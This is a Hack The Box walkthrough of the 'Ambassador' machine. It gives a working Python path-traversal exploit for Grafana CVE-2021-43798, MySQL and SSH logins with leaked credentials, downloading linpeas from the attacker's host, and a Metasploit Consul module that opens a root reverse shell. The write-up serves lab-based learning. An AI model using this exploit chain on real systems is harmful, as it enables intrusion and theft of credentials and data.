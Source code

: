 # ambassador

[link to the box](https://app.hackthebox.com/machines/Ambassador)

1. [scanning](#scanning)
2. [exploiting](#exploiting)
3. [pwning](#pwning)

# scanning

as with anything, we start by scanning the host's ip on all ports

```bash
$ nmap -Pn -p- 10.10.11.183
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
3306/tcp open  mysql
```
the service of interest here is 'ppp', located at http://10.10.11.183:3000/

visiting it presents us with a login page.

![login landing page](img/login.png)

(ignore all the wrong rabbit holes)

the login page says it is [grafana 8.2.0](https://grafana.com/oss/grafana/?utm_source=grafana_footer), and a quick search shows that this is totally vulnerable to [CVE-2021-43798](https://grafana.com/blog/2021/12/07/grafana-8.3.1-8.2.7-8.1.8-and-8.0.7-released-with-high-severity-security-fix/), allowing unathorised arbitrary file read.

# exploiting

this CVE relies on the ability to travers directories upwards from an accessible folder to access any files on the system. first we must find a plugin that exists on the remote.

[default root directory](img/default-root.png)

we should try looking in `/public/plugins` since the default root in the grafana upstream is `/plugins/`

[here](https://raw.githubusercontent.com/ScorpionsMAX/CVE-2021-43798-Grafana-POC/main/paload.txt) is a short list of plugins that come pre-bundled with grafana. pick one and see if it exists:

```bash
$ curl http://10.10.11.183:3000/public/plugins/welcome
<a href="/login">Found</a>.
```

then run this python script to try and download the defaults user database from grafana.

```python
#!/usr/bin/python3
import os

TARGET = "http://10.10.11.183:3000/public/plugins/welcome/"
DEPTH = 15
TARGET_FILE = "/var/lib/grafana/grafana.db" # grafana user db default location
OUTFILE = "./grafana.db" # to save to local machine

backwards = ""
for x in range(0, DEPTH):
        backwards += "../"

print("calling: curl " + TARGET + backwards + TARGET_FILE)
os.system("curl --path-as-is " + TARGET + backwards + TARGET_FILE + " -o " + OUTFILE) # path as is to not squash the '../' sequences
```

we now have access to the database file holding usernames and passwords! lets look inside it.

open sqlitebrowser on the downloaded database to find some sql passwords

[mysql login](img/password.png)

we can now try logging into the live mysql database.

```bash
$ mysql -h 10.10.11.183 -u grafana --password=dontStandSoCloseToMe63221!
# get list of databases
mysql > show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
# whackywidget looks like a suspicious databse
mysql > use whackywidget;
Database changed
mysql > show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
mysql > select * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
```

now we have the ssh username and hashed password for the developer account at the beginning. lets bruteforce the hash using `hashcast`

```bash
$ hashcat YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==
```

(alternatively look up the hash on [hashes.com](https://hashes.com/en/decrypt/hash) or some other database)

turns out the password is literally just base64 encoded. i feel super dumb.

connect to the ssh account using the decoded password and grab the user flag!

```bash
$ sshpass -p 'anEnglishManInNewYork027468' ssh developer@10.10.11.183 -p 22
developer@ambassador:~$ cat user.txt
0058ba8fb25c629583d1781988194134
```

# pwning

doing some basic manual enumeration won't get us far, let's see if we can send over an [enumeration script](https://github.com/carlospolop/PEASS-ng) to save effort and time.

on local machine:
```bash
$ wget https://github.com/carlospolop/PEASS-ng/releases/download/20221016/linpeas.sh
$ doas python3 -m http.server 80
```

on remote:
```bash
$ wget http://10.10.14.13:80/linpeas.sh
$ chmod +x ./linpeas.sh
$ ./linpeas.sh
```

unfortunately, this nets us little in the way of a foothold, and we also have no sudo.

[no sudo](img/nosudo.png)

but continuing to dig around eventually reveals some interesting folders in `/opt/`

[opt folder](img/lsopt.png)

this shows us a git repo, which when sniffing in the log reveals a misplaced consul token

[git log](img/gitlog.png)

since we have an api token, we can explore around in `consul`

```bash
$ consul acl token list --token bb03b43b-1d81-d62b-24b5-39540ee469b5
...
Policies:
   00000000-0000-0000-0000-000000000001 - global-management
```

the api token is a global-management token, so we can register a service by running `consul services register` and supplying a `.json` file to run a reverse shell.

```bash
$ cat /etc/consul.d/consul.hcl
...
bind_addr = "127.0.0.1"
...
```

consul is unfortunately only listening on the local address, so we cannot use remote without redirecting the port.

```bash
$ sshpass -p 'anEnglishManInNewYork027468' ssh -L 8500:127.0.0.1:8500 developer@10.10.11.183
```

will redirect the port 8500 on the remote to our local 8500

a handy msf exploit `multi/misc/consul_service_exe` allows us to use this found token to do exactly that

```bash
$ msfconsole
> use multi/misc/consul_service_exe
> set LHOST 10.10.14.13
> set LPORT 42069
> set RHOSTS 127.0.0.1
> set RPORT 8500
> set ACL_TOKEN bb03b43b-1d81-d62b-24b5-39540ee469b5
> run
```

now we have another reverse shell!

```bash
$ whoami
root
$ cat /root/root.txt
c3f5f94f9eaf9329abe9094ee8ae2aae
```

congrats! youre winner.
